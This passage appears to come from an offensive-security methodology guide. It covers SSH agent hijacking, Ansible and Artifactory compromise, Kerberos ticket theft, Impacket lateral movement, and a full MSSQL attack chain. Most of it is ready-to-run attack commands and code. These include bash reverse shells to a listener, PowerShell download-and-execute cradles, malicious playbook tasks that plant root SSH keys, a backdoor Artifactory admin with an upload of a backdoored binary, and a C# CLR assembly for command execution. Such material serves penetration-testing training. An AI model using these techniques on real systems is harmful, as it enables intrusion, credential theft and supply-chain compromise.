ssh -S /home/[user]/.ssh/controlmaster/[user]\@[downstream-target]\:22 [user]@[downstream-target]
17.4 SSH Hijacking via SSH-Agent Forwarding
SSH-Agent caches decrypted private keys so users authenticate once and then connect to downstream hosts without re-entering passphrases. When agent forwarding is enabled, key challenges from downstream servers are piped back to the originating machine's agent. An attacker on the intermediate server can either use the forwarded agent context directly (if logged in as the same user) or steal the agent's Unix socket file and impersonate the user with elevated privileges.
Unlike ControlMaster hijacking, SSH-Agent forwarding hijacking is not limited to already-open connections — any host the victim user's key has access to becomes reachable. The agent socket is stored in /tmp/ssh-*/agent.[pid] and its path is exposed through the process's environment file in /proc/[pid]/environ.
| Config Location | Directive | Purpose |
|---|---|---|
~/.ssh/config (client) | ForwardAgent yes | Enables agent forwarding from originating host |
/etc/ssh/sshd_config (intermediate) | AllowAgentForwarding yes | Permits intermediate server to forward agent challenges |
Methodology
-
ps aux | grep ssh -
pstree -p [user] | grep ssh -
cat /proc/[pid]/environ | tr '\0' '\n' | grep SSH_AUTH_SOCK -
ssh [user]@[downstream-target] -
SSH_AUTH_SOCK=/tmp/ssh-[random]/agent.[pid] ssh-add -l SSH_AUTH_SOCK=/tmp/ssh-[random]/agent.[pid] ssh [user]@[downstream-target]
17.5 Ansible Enumeration
Ansible is an infrastructure automation engine that operates over a push model: the Ansible controller connects to registered nodes and runs Python-based modules on them via SSH. Because Ansible accounts typically require elevated or root-level access on target nodes, compromising an Ansible controller can result in command execution across all managed hosts. The inventory file at /etc/ansible/hosts lists all managed nodes and groups.
| Indicator | Details |
|---|---|
ansible binary present | Run ansible --version to confirm |
/etc/ansible/ directory | Contains hosts inventory and ansible.cfg |
| Ansible-related usernames | Check /etc/passwd for ansibleadm, ansible, etc. |
| Syslog entries | Grep /var/log/syslog for ansible |
| Home directories | ls /home/ for Ansible admin accounts |
Methodology
-
which ansible && ansible --version -
cat /etc/ansible/hosts -
grep ansible /etc/passwd ls /home/ -
grep -i ansible /var/log/syslog grep -i password /var/log/syslog -
find / -name "*.yml" -o -name "*.yaml" 2>/dev/null | grep -v proc ls /opt/playbooks/
17.6 Ansible Ad-Hoc Command Execution
Ad-hoc Ansible commands run arbitrary shell commands across all or a subset of managed nodes. They require access to the Ansible administrator account on the controller. With the --become flag, commands execute as root on every node in the inventory, providing instant privileged access across the entire managed fleet without touching each host individually.
Methodology
-
ansible [group] -a "whoami" ansible all -a "id" -
ansible all -a "whoami" --become ansible all -a "id" --become -
ansible all --become -m authorized_key -a "user=root key='ssh-rsa [your-public-key] kali@kali'" -
ansible [group] --become -a "bash -c 'bash -i >& /dev/tcp/[listener-ip]/[listener-port] 0>&1'"
17.7 Ansible Playbook Exploitation
Playbooks are YAML-scripted sequences of tasks run on managed nodes, typically with elevated privileges. Two primary attack vectors exist: harvesting credentials hardcoded in existing playbooks and injecting malicious tasks into world-writable playbooks. When administrators cannot use SSH keys, they often hardcode usernames and passwords directly in playbooks under the ansible_become_pass variable.
Ansible Vault can encrypt these credentials, but the vault password itself is often weak and crackable with Hashcat (hash mode 16900). The shell Ansible module also leaks its full command line — including embedded credentials — to /var/log/syslog on the managed node unless no_log: true is set in the playbook.
| Attack Vector | Requirement | Impact |
|---|---|---|
| Hardcoded credentials in playbook | Read access to playbook files | Plaintext credentials for node users |
| Ansible Vault crack | Read access to encrypted value + JTR/Hashcat | Decrypted credentials |
| Syslog credential leak | Read access to /var/log/syslog on node | Plaintext credentials from shell module |
| Write to writable playbook | Write access to playbook (group permissions) | Code execution as root on all nodes |
Methodology
-
grep -r "ansible_become_pass\|password\|passwd" /opt/playbooks/ 2>/dev/null -
# Copy the $ANSIBLE_VAULT;... block (no leading whitespace) into test.yml python3 /usr/share/john/ansible2john.py ./test.yml > testhash.txt hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt -
cat pw.txt | ansible-vault decrypt # Enter cracked vault password at prompt -
grep -i "password" /var/log/syslog grep "ansible-command" /var/log/syslog | grep -i "pass" -
# Append to existing playbook YAML: cat >> /opt/playbooks/[writable-playbook].yaml << 'EOF' - name: Create .ssh dir file: path: /root/.ssh state: directory mode: '0700' owner: root group: root - name: Create authorized_keys file: path: /root/.ssh/authorized_keys state: touch mode: '0600' owner: root group: root - name: Insert attacker key lineinfile: path: /root/.ssh/authorized_keys line: "ssh-rsa [your-public-key] kali@kali" insertbefore: EOF EOF -
# Add to playbook tasks section: # - name: Run shell # shell: bash -c 'bash -i >& /dev/tcp/[listener-ip]/[listener-port] 0>&1' # async: 10 # poll: 0 -
cat /home/[ansibleadm-user]/.ssh/id_rsa # Use key to SSH directly to any node in inventory
17.8 Artifactory Enumeration
Artifactory is a binary repository manager used as a trusted internal source for software packages and build artifacts. Because it is treated as a trusted source with broad automated consumption, it is a prime target for supply chain attacks. The open-source version runs on port 8081/8082 by default and uses an embedded Apache Derby database.
Methodology
-
ps aux | grep artifactory find /opt -name "artifactoryctl" 2>/dev/null -
curl -s http://[target]:8082/ | head -20 -
curl -u [user]:[password] http://[target]:8082/artifactory/api/repositories curl -u [user]:[password] http://[target]:8082/artifactory/api/storage/[repo-name]/
17.9 Compromising Artifactory Backups
When Artifactory creates database backups, user entries including bcrypt-hashed passwords are written to JSON files at [ARTIFACTORY_DIR]/var/backup/access/. With root access to the server, these files can be read directly even without Artifactory credentials. Extracted bcrypt hashes can then be cracked offline using John the Ripper or Hashcat.
Methodology
-
ls -al /opt/jfrog/artifactory/var/backup/access/ cat /opt/jfrog/artifactory/var/backup/access/access.backup.*.json -
grep '"password"' /opt/jfrog/artifactory/var/backup/access/access.backup.*.json -
sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt -
hashcat -m 3200 derbyhash.txt /usr/share/wordlists/rockyou.txt
17.10 Compromising Artifactory's Derby Database
When no backup files are available, the live Derby database at [ARTIFACTORY_DIR]/var/data/access/derby can be copied to a temp location and queried directly. The database is locked while Artifactory is running, but copying it and removing lock files allows offline querying with Apache Derby's ij command-line tool. The access_users table holds all user records including bcrypt-hashed passwords.
Methodology
-
mkdir /tmp/hackeddb sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb sudo chmod 755 /tmp/hackeddb/derby sudo rm /tmp/hackeddb/derby/*.lck -
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java \ -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij -
connect 'jdbc:derby:/tmp/hackeddb/derby'; select USERNAME, PASSWORD from access_users; -
sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt # or hashcat -m 3200 derbyhash.txt /usr/share/wordlists/rockyou.txt
17.11 Adding a Backdoor Artifactory Admin Account
Artifactory includes a bootstrap credential mechanism intended for account recovery. By writing a specially formatted file to [ARTIFACTORY_DIR]/var/etc/access/bootstrap.creds with 600 permissions and restarting the service, a new administrator account is created automatically on startup. This method requires write access to the config directory (typically root or sudo) and incurs service downtime during restart.
Methodology
-
sudo bash -c 'echo "[backdoor-user]@*=[backdoor-password]" > /opt/jfrog/artifactory/var/etc/access/bootstrap.creds' sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds -
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start -
sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log -
curl -u [backdoor-user]:[backdoor-password] \ -T /tmp/[backdoored-binary] \ "http://[target]:8082/artifactory/[repo-name]/[path]/[binary-name]"
17.12 Stealing Keytab Files
Keytab files contain a Kerberos principal name and encrypted keys, allowing automated scripts to authenticate to Kerberos resources without entering a password. They are commonly used in cron jobs for scheduled tasks requiring domain authentication. Because they grant Kerberos tickets for the associated principal, a stolen keytab for a domain administrator account provides the same access as the account itself.
Keytab files are typically stored in the account owner's home directory but may be readable by root or placed in world-readable locations for convenience. Check /etc/crontab and cron scripts to identify which keytabs are in use and which principals they represent. Keytabs used in automated Ansible or script contexts often lack passphrases by design.
| Command | Purpose |
|---|---|
ktutil | Interactive tool to create, inspect, and manage keytab files |
kinit -k -t [file] | Authenticate using a keytab file to get a TGT |
klist | List currently cached Kerberos tickets |
kinit -R | Renew an existing TGT within the renewal window |
kdestroy | Destroy all cached tickets for the current user |
Methodology
-
find / -name "*.keytab" 2>/dev/null find / -name "*.kt" 2>/dev/null grep -r "keytab" /etc/crontab /etc/cron* 2>/dev/null -
cat /etc/crontab ls /etc/cron.d/ /etc/cron.daily/ /var/spool/cron/ grep -r "kinit\|keytab" /opt/ /home/ 2>/dev/null -
kinit [user]@[DOMAIN.COM] -k -t /tmp/[user].keytab -
klist -
kinit -R -
smbclient -k -U "[DOMAIN.COM]\\[user]" //[dc].[domain]/C$
17.13 Attacking Kerberos Credential Cache Files
Active Directory users authenticated on a Linux domain-joined host store their Kerberos tickets in credential cache (ccache) files under /tmp/krb5cc_[UID]_[random]. The path is exposed via the user's KRB5CCNAME environment variable. These files are normally readable only by the owner, but root can copy them and take ownership. Loading a stolen ccache file allows full impersonation of the victim's Kerberos identity, including requesting new service tickets on their behalf.
| Command | Purpose |
|---|---|
ls -al /tmp/krb5cc_* | List all ccache files and their owners |
export KRB5CCNAME=/tmp/[file] | Point Kerberos tools at a specific ccache file |
klist | Verify tickets loaded from the ccache |
kvno [SPN] | Request a service ticket for a given SPN |
ldapsearch -Y GSSAPI | Query LDAP using Kerberos authentication |
Methodology
-
ls -al /tmp/krb5cc_* -
sudo cp /tmp/krb5cc_[uid]_[random] /tmp/krb5cc_stolen sudo chown [current-user]:[current-user] /tmp/krb5cc_stolen -
kdestroy export KRB5CCNAME=/tmp/krb5cc_stolen klist -
ldapsearch -Y GSSAPI -H ldap://[dc].[domain] -D "[user]@[DOMAIN.COM]" -W \ -b "dc=[domain],dc=com" "servicePrincipalName=*" servicePrincipalName -
kvno MSSQLSvc/[dc].[domain]:1433 klist
17.14 Kerberos Lateral Movement with Impacket
Impacket provides Python-based tools for low-level network protocol manipulation including full Kerberos ticket support. After stealing a ccache file from a domain-joined Linux host, it can be transferred to a Kali attack machine and used with Impacket tools via a SOCKS proxy. This allows direct interaction with Windows domain resources (LDAP, SMB, WMI) using the stolen identity without requiring credentials.
The attack chain requires copying the ccache file to Kali, setting KRB5CCNAME, installing Kerberos client utilities, configuring /etc/hosts for domain resolution, and tunneling through a SOCKS proxy on the compromised domain-joined host. The proxy_dns option in proxychains must be disabled to avoid DNS resolution conflicts.
| Impacket Script | Purpose |
|---|---|
GetADUsers.py | Enumerate domain user accounts |
GetUserSPNs.py | List SPNs and Kerberoastable accounts |
psexec.py | Execute commands / get SYSTEM shell on remote Windows host |
secretsdump.py | Dump hashes and secrets remotely |
wmiexec.py | Semi-interactive shell via WMI |
Methodology
-
scp [user]@[linux-victim]:/tmp/krb5cc_stolen /tmp/krb5cc_stolen -
export KRB5CCNAME=/tmp/krb5cc_stolen -
sudo apt install krb5-user -
echo "[dc-ip] [DOMAIN.COM] [dc].[DOMAIN.COM]" | sudo tee -a /etc/hosts -
ssh [user]@[linux-victim] -D 9050 # In /etc/proxychains.conf: comment out proxy_dns -
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py \ -all -k -no-pass -dc-ip [dc-ip] [DOMAIN.COM]/[user] -
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py \ -k -no-pass -dc-ip [dc-ip] [DOMAIN.COM]/[user] -
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py \ [user]@[dc].[DOMAIN.COM] -k -no-pass
18. Microsoft SQL Attacks
Microsoft SQL Server (MSSQL) is pervasive across enterprise environments and deeply integrated with Active Directory. Because SQL servers frequently run as privileged service accounts and link to one another, a single foothold at the public role can escalate to OS-level code execution on multiple hosts. This section covers the full attack chain: AD enumeration, authentication, UNC path injection, hash relay, privilege escalation through impersonation, code execution via stored procedures and custom CLR assemblies, and lateral movement through linked SQL servers — all driven by Sliver C2 tooling.
18.1 MSSQL in Active Directory — Enumeration
When an MSSQL instance runs under a domain service account it registers a Service Principal Name (SPN) in Active Directory, associating the account with the server hostname and TCP port. Querying AD for MSSQL SPNs is quieter than network scanning and reveals the service account context, which determines the blast radius of any compromise.
| Method | Command / Note | Output |
|---|---|---|
setspn (native) | setspn -T [domain] -Q MSSQLSvc/* | Hostname, port, SPN per instance |
| GetUserSPNs.ps1 | PowerShell; queries AD LDAP directly | SPN + SAMAccountName + MemberOf |
| SQLRecon | sqlrecon -- /enum:sqlspns | All MSSQL SPNs domain-wide |
| PowerUpSQL | Get-SQLInstanceDomain | Instances with port and service account |
| Nmap | TCP 1433 (default); named instances use dynamic ports | Open ports; banner |
The SPN output discloses the service account name and its group memberships. A service account that is a member of the local Administrators group on multiple SQL hosts means a single credential or hash capture compromises all of them simultaneously.
Methodology
-
setspn -T [domain] -Q MSSQLSvc/* -
sliver ([session]) > sqlrecon -- /enum:sqlspns -
nmap -p 1433,1434 --open -sV [target-subnet]/24
18.2 MSSQL Authentication
MSSQL authentication operates in two stages: login (SQL Server login or Windows/Kerberos) then mapping to a database user. When Windows Authentication is enabled, any domain user can log in with their Kerberos TGS ticket — no password needed. The login is then mapped to a database user; without an explicit mapping it falls to the built-in guest account with the public role.
| Login Type | Mechanism | Default User Mapping | Default Role |
|---|---|---|---|
| Windows (domain user) | Kerberos TGS (no password in query) | guest if no explicit mapping | public |
SQL Server (sa) | Username + password in connection string | dbo | sysadmin |
| Windows (service account) | Kerberos; may have explicit mapping | Varies by configuration | Varies |
Even public role access is sufficient to trigger UNC path injection and relay attacks. The C# connection string below uses Integrated Security = True, which passes the current Kerberos token — no credentials required in the binary.
using System;
using System.Data.SqlClient;
namespace SQL {
class Program {
static void Main(string[] args) {
String sqlServer = "[sql-server]";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);
try {
con.Open();
Console.WriteLine("Auth success!");
} catch {
Console.WriteLine("Auth failed");
Environment.Exit(0);
}
// Enumerate login, mapped user, and role membership
String[] queries = {
"SELECT SYSTEM_USER;",
"SELECT USER_NAME();",
"SELECT IS_SRVROLEMEMBER('public');",
"SELECT IS_SRVROLEMEMBER('sysadmin');"
};
foreach (String q in queries) {
SqlCommand cmd = new SqlCommand(q, con);
SqlDataReader r = cmd.ExecuteReader();
r.Read();
Console.WriteLine(q + " => " + r[0]);
r.Close();
}
con.Close();
}
}
}Methodology
-
# From a domain-joined host or via proxychains + Kerberos mssqlclient-ng [sql-server] -d [domain] -u [user] -p '[password]' -windows-auth -
SELECT SYSTEM_USER; -- SQL login (e.g. domain\user) SELECT USER_NAME(); -- mapped DB user (e.g. guest) SELECT IS_SRVROLEMEMBER('sysadmin'); -- 1 = member SELECT IS_SRVROLEMEMBER('public'); -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/Sql.exe
18.3 UNC Path Injection
The undocumented xp_dirtree stored procedure accepts a UNC path and attempts to list its contents. When the target is an attacker-controlled IP address, Windows falls back to NTLM authentication (Kerberos cannot resolve raw IPs), forcing the SQL service account to send its NTLMv2 hash. The public role is sufficient to call xp_dirtree.
Several other procedures trigger the same outbound connection: xp_fileexist, xp_subdirs, sp_OACreate, BACKUP/RESTORE with a UNC path. Use alternatives if xp_dirtree has been removed. Run Responder on the attacker interface before triggering the callback to capture the NTLMv2 hash.
| Procedure | SQL Statement | Privilege Required |
|---|---|---|
xp_dirtree | EXEC master..xp_dirtree '\\[listener-ip]\share' | public |
xp_fileexist | EXEC master..xp_fileexist '\\[listener-ip]\share\file' | public |
xp_subdirs | EXEC master..xp_subdirs '\\[listener-ip]\share' | public |
| MSSQLand smb action | MSSQLand.exe [sql-server] -c token smb [listener-ip] | public |
| PowerUpSQL | Invoke-SQLUncPathInjection -Instance [sql-server] -CaptureIp [listener-ip] | public |
// C# — trigger UNC callback via xp_dirtree
String query = "EXEC master..xp_dirtree \"\\\\[listener-ip]\\\\share\";";
SqlCommand command = new SqlCommand(query, con);
SqlDataReader reader = command.ExecuteReader();
reader.Close();Methodology
-
sudo responder -I [interface] -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token smb [listener-ip] -
EXEC master..xp_dirtree '\\[listener-ip]\share' -
Invoke-SQLUncPathInjection -Instance [sql-server] -Verbose -CaptureIp [listener-ip] -
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
18.4 Hash Relay (ntlmrelayx)
A Net-NTLMv2 hash cannot be used directly in a pass-the-hash attack, but it can be relayed to a different host where the same account is a local administrator. SMB signing must be disabled on the relay target (it is disabled by default on all non-domain-controller Windows machines). The attack relays the SQL service account's hash captured from one server to execute commands on a second server.
The key constraint is that you cannot relay back to the origin server on the same protocol (blocked since 2008). Identify a second host where the service account has local admin access — the SPN enumeration output often reveals this. Base64-encode the PowerShell download cradle to avoid quoting issues on the command line.
# Base64-encode the Sliver stager download cradle (run on Kali with pwsh)
$text = "IEX(New-Object Net.WebClient).DownloadString('http://[listener-ip]:[listener-port]/[stager].ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
[Convert]::ToBase64String($bytes)Methodology
-
nmap --script smb2-security-mode -p 445 [relay-target] -
sliver > https -l [listener-port] sliver > stage-listener --url http://[listener-ip]:[listener-port] --profile [profile-name] -
$text = "IEX(New-Object Net.WebClient).DownloadString('http://[listener-ip]:[listener-port]/[stager].ps1')" $bytes = [System.Text.Encoding]::Unicode.GetBytes($text) [Convert]::ToBase64String($bytes) -
# Relay to one SMB target and execute the encoded cradle sudo impacket-ntlmrelayx --no-http-server -smb2support \ -t [relay-target] \ -c 'powershell -enc [base64-cradle]' # Relay to multiple targets using a hosts file sudo impacket-ntlmrelayx --no-http-server -smb2support \ -tf hosts.txt \ -c 'powershell -enc [base64-cradle]' # Relay directly into MSSQL (bypasses SMB, useful when SMB signing is enabled) sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support \ -t mssql://[relay-target] \ -c 'powershell -enc [base64-cradle]' -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token smb [kali-ip]
18.5 Privilege Escalation — Impersonation
The EXECUTE AS LOGIN and EXECUTE AS USER statements allow one principal to act as another. If a DBA has misconfigured impersonation permissions, a public-role login can impersonate sa and gain sysadmin. First enumerate which logins expose an impersonation permission, then attempt impersonation to confirm the privilege escalation.
User-level impersonation (EXECUTE AS USER) is scoped to the current database. To reach server-wide sysadmin, the target database must have the TRUSTWORTHY property set. The msdb database has TRUSTWORTHY enabled by default, and its dbo user holds sysadmin.
| Statement | Scope | Target | Yields |
|---|---|---|---|
EXECUTE AS LOGIN = 'sa' | Server-wide | sa login | sysadmin |
use msdb; EXECUTE AS USER = 'dbo' | Database (msdb only, TRUSTWORTHY) | dbo user | sysadmin via TRUSTWORTHY chain |
-- Enumerate logins that permit impersonation
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
-- Attempt login-level impersonation
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER; -- should now return: sa
-- User-level impersonation in msdb (TRUSTWORTHY database)
USE msdb;
EXECUTE AS USER = 'dbo';
SELECT USER_NAME(); -- should return: dboMethodology
-
SELECT DISTINCT b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'; -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token impersonate -
sliver ([session]) > sqlrecon -- /auth:wintoken /h:[sql-server] /m:impersonate -
Invoke-SQLEscalatePriv -Verbose -Instance [sql-server] -
EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER('sysadmin'); -
USE msdb; EXECUTE AS USER = 'dbo'; SELECT USER_NAME(); SELECT IS_SRVROLEMEMBER('sysadmin');
18.6 Code Execution — xp_cmdshell and sp_OACreate
xp_cmdshell spawns a Windows command shell and returns output, but has been disabled by default since SQL Server 2005. With sysadmin role membership (obtained via impersonation or direct login), advanced options can be enabled with sp_configure to re-enable it. Because xp_cmdshell is heavily monitored, sp_OACreate/sp_OAMethod provides an OLE-based alternative that instantiates a wscript.shell COM object.
| Technique | Required Configuration | Output Returned | Detection Risk |
|---|---|---|---|
xp_cmdshell | show advanced options=1; xp_cmdshell=1 | Yes (stdout) | High — commonly alerted |
sp_OACreate + sp_OAMethod | OLE Automation Procedures=1 | No (fire and forget) | Medium |
| Custom CLR assembly | CLR enabled=1; CLR strict security=0 (or signed DLL) | Yes (via SqlPipe) | Low if inline hex |
-- xp_cmdshell: enable and execute
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
-- sp_OACreate / sp_OAMethod: OLE-based execution (no output returned)
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
DECLARE @myshell INT;
EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
EXEC sp_oamethod @myshell, 'run', null, 'cmd /c "powershell -enc [base64-cradle]"';Methodology
-
EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami'; -
sliver ([session]) > execute-assembly -t 40 /home/kali/tools/MSSQLand.exe [sql-server] -c token powershell "irm http://[listener-ip]:[listener-port]/[stager].ps1 | iex" -
sliver ([session]) > sqlrecon -- /auth:wintoken /h:[sql-server] /m:enablexp sliver ([session]) > inline-execute-assembly -t 20 /home/kali/tools/SQLRecon.exe \ '/auth:wintoken /h:[sql-server] /m:xpcmd /i:sa /c:"powershell -enc [base64-cradle]"' -
Invoke-SQLOSCmd -Instance [sql-server] -Command "whoami" Invoke-SQLOSCmd -Instance [sql-server] -Command "powershell -enc [base64-cradle]" -
EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c "powershell -enc [base64-cradle]"';
18.7 Custom CLR Assemblies
When a database has the TRUSTWORTHY property enabled, the CREATE ASSEMBLY statement can import a managed .NET DLL and expose its methods as stored procedures. This technique provides output back to the caller (unlike sp_OACreate) and leaves no file on disk if the assembly is embedded as a hex string in the SQL statement. CLR Integration is disabled by default and CLR strict security (SQL Server 2017+) restricts unsigned assemblies — both must be configured first.
The target database is msdb (TRUSTWORTHY by default). The DLL must be compiled as a Class Library targeting the same .NET Framework version as the SQL server. The [Microsoft.SqlServer.Server.SqlProcedure] attribute marks a method as a stored procedure, and SqlContext.Pipe returns results to the caller.
// Custom CLR assembly — compile as Class Library (.NET Framework)
using System;
using Microsoft.SqlServer.Server;
using System.Data.SqlTypes;
using System.Diagnostics;
public class StoredProcedures {
[Microsoft.SqlServer.Server.SqlProcedure]
public static void cmdExec(SqlString execCommand) {
Process proc = new Process();
proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.RedirectStandardOutput = true;
proc.Start();
SqlDataRecord record = new SqlDataRecord(
new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
SqlContext.Pipe.SendResultsStart(record);
record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
SqlContext.Pipe.SendResultsRow(record);
SqlContext.Pipe.SendResultsEnd();
proc.WaitForExit();
proc.Close();
}
};# Convert compiled DLL to hex string for inline embedding (run on attacker machine)
$assemblyFile = "[path-to-cmdExec.dll]"
$sb = New-Object -Type System.Text.StringBuilder
$fs = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fs.ReadByte()) -gt -1) { $sb.Append($byte.ToString("X2")) | Out-Null }
$sb.ToString() -join "" | Out-File [output-path]/cmdExec.txt-- Enable CLR and disable strict security (requires sysadmin)
USE msdb;
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'clr enabled', 1; RECONFIGURE;
EXEC sp_configure 'clr strict security', 0; RECONFIGURE;
-- Load assembly inline from hex (no file write to disk)
CREATE ASSEMBLY myAssembly FROM 0x4D5A9000[...rest of hex...] WITH PERMISSION_SET = UNSAFE;
-- Create stored procedure from assembly method
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR(4000)
AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];
-- Execute
EXEC cmdExec 'whoami';
EXEC cmdExec 'powershell -enc [base64-cradle]';
-- Cleanup
DROP PROCEDURE [dbo].[cmdExec];
DROP ASSEMBLY myAssembly;Methodology
-
$sb = New-Object -Type System.Text.StringBuilder $fs = [IO.File]::OpenRead("[path-to-dll]") while (($byte = $fs.ReadByte()) -gt -1) { $sb.Append($byte.ToString("X2")) | Out-Null } $sb.ToString() | Out-File [output-path]/assembly.txt -
USE msdb; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'clr enabled', 1; RECONFIGURE; EXEC sp_configure 'clr strict security', 0; RECONFIGURE; -
CREATE ASSEMBLY myAssembly FROM 0x[hex-string] WITH PERMISSION_SET = UNSAFE; -
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR(4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec]; -
EXEC cmdExec 'powershell -enc [base64-cradle]'; -
DROP PROCEDURE [dbo].[cmdExec]; DROP ASSEMBLY myAssembly;
18.8 Linked SQL Servers — Enumeration and Traversal
MSSQL supports server-to-server links that forward SQL queries to remote instances. The security context of the link is defined at creation time — an administrator may configure the link to use a fixed sysadmin login, granting elevated privileges to anyone who can query through it. Links are not bidirectional by default, so enumerating all link chains in both directions is critical.
The linkmap action in MSSQLand produces a tree of reachable servers and the effective login at each hop — this is the fastest way to identify privilege escalation paths through linked servers. SQLRecon can also traverse links with the /l: flag, though it does not support impersonation across link hops.
| Query / Action | Purpose |
|---|---|
EXEC sp_linkedservers; | List all linked servers on the current instance |
select @@version from openquery("[linked-server]", 'select @@version') | Execute query on a linked server |
select SYSTEM_USER from openquery("[linked-server]", 'select SYSTEM_USER') | Determine effective login on the linked server |
EXEC ('sp_linkedservers') AT [linked-server] | Enumerate links on a remote server (requires RPC Out) |
MSSQLand.exe [host] ... linkmap | Full recursive link tree with effective login per hop |
Methodology
-
EXEC sp_linkedservers; -
sliver ([session]) > execute-assembly -t 20 /home/kali/tools/MSSQLand.exe [sql-server] -c token linkmap # Output: SQL01 (domain\svc [dbo]) ---> SQL02 (sa [dbo]) ---> SQL03 (guest [public]) -
SELECT mylogin FROM OPENQUERY("[linked-server]", 'SELECT SYSTEM_USER AS mylogin'); -
EXEC ('sp_linkedservers') AT [linked-server]; -
sliver ([session]) > sqlrecon -t 20 -- /auth:wintoken /h:[sql-server] /m:links sliver ([session]) > sqlrecon -t 20 -- '/auth:wintoken /h:[sql-server] /l:[linked-server] /m:whoami' sliver ([session]) > sqlrecon -t 20 -- '/auth:wintoken /h:[sql-server] /l:[linked-server] /m:info' -
sliver ([session]) > sqlrecon -t 20 -- /auth:wintoken /h:[sql-server] /l:[linked-server] /m:checkrpc
18.9 Code Execution via Linked Servers
When a link is configured to use a sysadmin context, the same code execution techniques (xp_cmdshell, CLR assembly) can be invoked remotely using the AT [linked-server] syntax. OPENQUERY does not support stored procedures, but AT does. For RECONFIGURE to work over a link, RPC Out must be enabled on the link.
When building nested AT chains (e.g., current server → server A → server B), each additional hop doubles the required single-quote escaping. MSSQLand abstracts this entirely through its -l chain flag, making it the preferred tool for multi-hop exploitation.
-- Enable advanced options on a linked server (requires RPC Out)
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT [linked-server];
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [linked-server];
EXEC ('xp_cmdshell ''whoami''') AT [linked-server];
-- Two-hop chain: current -> server-A -> server-B (note: single quotes double per hop)
EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [server-b]') AT [server-a];
EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [server-b]') AT [server-a];
EXEC ('EXEC (''xp_cmdshell ''''powershell -enc [base64-cradle]'''';'') AT [server-b]') AT [server-a];Methodology
-
SELECT mylogin FROM OPENQUERY("[linked-server]", 'SELECT IS_SRVROLEMEMBER(''sysadmin'') AS mylogin'); -
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT [linked-server]; EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [linked-server]; EXEC ('xp_cmdshell ''whoami''') AT [linked-server]; -
sliver ([session]) > execute-assembly -t 40 /home/kali/tools/MSSQLand.exe [sql-server] -c token -l [linked-server] powershell "irm http://[listener-ip]:[listener-port]/[stager].ps1 | iex" -
